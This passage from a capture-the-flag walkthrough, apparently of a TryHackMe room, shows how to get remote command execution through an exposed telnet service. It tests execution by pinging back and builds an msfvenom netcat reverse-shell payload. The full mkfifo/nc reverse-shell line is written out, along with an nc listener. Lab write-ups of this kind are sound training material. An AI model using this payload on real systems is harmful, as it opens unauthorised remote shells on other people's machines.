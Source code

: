 If using your own machine with the OpenVPN connection, use: `sudo tcpdump ip proto \\icmp -i tun0`

If using the AttackBox, use: `sudo tcpdump ip proto \\icmp -i ens5`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

In linux machine `sudo tcpdump ip proto \\icmp -i tun0`

<img width="358" height="56" alt="image" src="https://github.com/user-attachments/assets/e6f26cea-5107-401b-87d9-473af32655a4" />


5. Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

Y

Use `.RUN ping YOUR_TUN0_IP -c 1`

<img width="418" height="58" alt="image" src="https://github.com/user-attachments/assets/bb60e830-5224-4c25-9171-18505aab2808" />

This confirms that we can use commands on the telnet machine by putting a listener to get results of that command

6. We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`
- `-p` = payload
- `lhost` = our local host IP address (this is your machine's IP address)
- `lport` = the port to listen on (this is the port on your machine)
- `R` = export the payload in raw format

What word does the generated payload start with?

mkfifo

Use this on the linux machine to get the payload `msfvenom -p cmd/unix/reverse_netcat lhost=YOUR_TUN0_IP lport=4444 R`

<img width="440" height="74" alt="image" src="https://github.com/user-attachments/assets/477ddbde-fa31-4a5c-ada5-3b2f8ba4c9b4" />

7. Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvnp [listening port]`

What would the command look like for the listening port we selected in our payload?

`nc -lvnp 4444`

8. Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

Using `.RUN mkfifo /tmp/cqrst; nc YOUR_TUN0_IP 4444 0</tmp/cqrst | /bin/sh >/tmp/cqrst 2>&1; rm /tmp/cqrst` payload in the telnet machine with .RUN

And a listening port in the linux machine `nc -lvnp 4444` 

You get connected to the mahine and get the shell!

9. Success! What is the contents of flag.txt?
